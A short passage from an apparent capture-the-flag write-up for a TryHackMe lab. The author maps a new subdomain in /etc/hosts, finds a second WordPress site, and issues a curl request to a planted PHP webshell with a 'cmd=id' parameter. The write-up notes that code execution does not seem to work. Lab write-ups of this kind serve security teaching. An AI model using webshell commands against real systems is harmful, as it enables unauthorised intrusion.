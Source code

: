 We found a new subdomain!

**Let's add that to `/etc/hosts`:**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Different-CTF)-[2023.01.31|14:24:18(HKT)]
└> sudo vi /etc/hosts
10.10.152.107 adana.thm subdomain.adana.thm
```

**`subdomain`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Different-CTF/images/Pasted%20image%2020230131143935.png)

Nice! We found another WordPress!

**Let's try to access our PHP webshell again:**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Different-CTF)-[2023.01.31|14:40:35(HKT)]
└> curl http://subdomain.adana.thm/webshell.php --get --data-urlencode "cmd=id"
```

It does exist, but it seems like we don't have code execution??
